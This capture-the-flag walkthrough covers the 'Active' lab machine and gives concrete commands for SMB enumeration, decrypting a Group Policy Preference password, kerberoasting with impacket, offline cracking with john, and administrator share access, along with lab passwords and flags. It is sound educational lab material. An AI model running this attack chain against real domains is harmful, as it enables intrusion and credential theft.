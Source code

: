 ![[Active.png]]

Active is a machine to learn about the enumeration of services in an AD environment. Attackers will need to leverage understandings of ports and services, SMB configurations, Group Policy Preference (GPP), hash cracking, and kerberoasting. Without further ado, let's get into it.

### Scan
```
└─# nmap -sV -sC --open -p- 10.10.10.100
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-10 20:53 EDT
Nmap scan report for 10.10.10.100
Host is up (0.14s latency).
Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-09-11 00:54:13Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
49165/tcp open  msrpc         Microsoft Windows RPC
49166/tcp open  msrpc         Microsoft Windows RPC
49168/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-09-11T00:55:13
|_  start_date: 2024-09-11T00:51:08
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.17 seconds

```

Our TCP and UDP port scan didn't finish before we had achieved root, so I'll leave those scans out. Do remember, it is extremely important to cover all bases in the enumeration phase of our reconnaissance and scanning. 

We've got quite a lot going on here, and I'd like to go through these ports and their importance within the context of Active Directory. `88` is the one that catches my eye, because it is occupied by the `Kerberos` service which is used to authenticate Users to the Domain Controller. `139` and `445` are associated with the `SMB` (Server Messaging Block) service, and we can usually enumerate these services for information of files.`389` and `3268` are for the `LDAP` services, and `MSRPC` allows the hosts to talk to each other. 

### Enumeration

We've got a Windows 2008 Server acting as our Domain Controller. We get the name of the machine too, so add it to `/etc/hosts` The normal vector here is to use the DNS Resolver to get our hostname `active.htb` and try to exploit through a web-based attack vector. We can use commands such as like `host -l`, `dig`, and `nslookup`. These are dead-ends, though, and we need to start moving on to other options.

In order to interact with SMB shares, we can use tools like `smbclient` and `smbmap`. The latter allows us to enumerate the SMB shares to get information about files, share, and directories. The former allows us to interact with and connect to actual shares as well as transfer files. 

Using the scan `smbmap -H active.htb`, we get access to see some shares:

![[Screenshot 2024-09-10 at 9.49.47 PM.png]]

We've got access to only one share, so lets enumerate a bit more. We can connect via SMB to the machine using the syntax below, and the `-N` parameter suppresses the password because we're trying for an anonymous logon.

`smbclient //active.htb/Replication -N`

### Initial Access

Once we're connected, we can browse around using `cd` and whatnot, while `get` and `more` give us information about files. Just like when fuzzing web directories, there are key items and things to look for in shares as well. Whenever a new Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as `cpassword`. These are extremely helpful when looking for initial footholds.

![[Screenshot 2024-09-10 at 10.06.08 PM.png]]

When we open the file with `more`, or transfer it with `get`, we'll see that there are credentials here.

![[Screenshot 2024-09-10 at 10.08.42 PM.png]]

Because we know the encryption method, and the key's been published before in a MSFT leak, we've got tools to decrypt. One of them is called `gpp-decrypt`.

`gpp-decrypt [ENCRYPTED PASS]`

When we do this, we're able to get our password.

 `GPPstillStandingStrong2k18`

An important concept when enumerating on Active Directory machines is to spray credentials whenever and wherever you can, as they're often reused. We can now go use `smbclient` to log in with credentials.

`smbclient -W active.htb -U SVC_TGS //active.htb/USERS`

Once in, we can navigate to the user's directory and desktop for our flag.

![[Screenshot 2024-09-10 at 10.20.51 PM.png]]

`USER:77d587ba5436a9188f242c777ce6fd17`

### Privilege Escalation

A very useful and common vector for escalating privileges in this environment is by abusing the AD authentication service known as Kerberos. The diagram below illustrates how the protocol works.

![[Screenshot 2024-09-11 at 9.27.35 AM.png]]

If you compromise a user that has a valid kerberos ticket-granting ticket (TGT), then you can request one or more ticket-granting service (TGS) service tickets for any Service Principal Name (SPN) from a domain controller. An example SPN would be the Application Server shown in the above figure.

A portion of the TGS ticket is encrypted with the hash of the service account associated with the SPN. Therefore, you can run an offline brute force attack on the encrypted portion to reveal the service account password. Therefore, if you request an administrator account TGS ticket and the administrator is using a weak password, we’ll be able to crack it!

A tool called `impacket` is vital for us in this process, and it can be installed with a `git` repository, and installed with `python setup.py install` once in the downloaded directory. `GetUserSPNs.py` is a great script that enumerates SPNs for us, and the command to use it is below. (It sit in `/examples/` directory)

`./GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request`

![[Screenshot 2024-09-10 at 11.02.19 PM.png]]

We get the TGS for users in a useful JtR/Hashcat format that we can use to brute-force offline. It's important to export these results to a file for ease of use, and additionally, if the hash or list is going to create a computationally intensive process, run the process on metal. VM is no good here. 

If you receive an error, “Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)”, it’s probably because the attack machine date and time are not in sync with the Kerberos server.

We can take our TGS and use any cracking tool like `john` or `hashcat` and crack!

`john --wordlist=/usr/share/wordlists/rockyou.txt spn-admin.txt`

![[Screenshot 2024-09-10 at 11.13.12 PM.png]]

We got a password! 

Now, remember what I said. We've got a login, enumerate once again. `smbmap` is great for this to re-assess where we are.

`smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968`

We're looking for access to any important drive or directory. In this case, we've got access to $C drive! All we need to do is connect via `smbclient` with our credentials, and grab our flag.

`smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968`

`more \users\administrator\desktop\root.txt`

![[Screenshot 2024-09-10 at 11.18.00 PM.png]]

`ROOT:3dfddeb6977b22a2d47e8dc8346cbda1`

#windows #manual #easy 
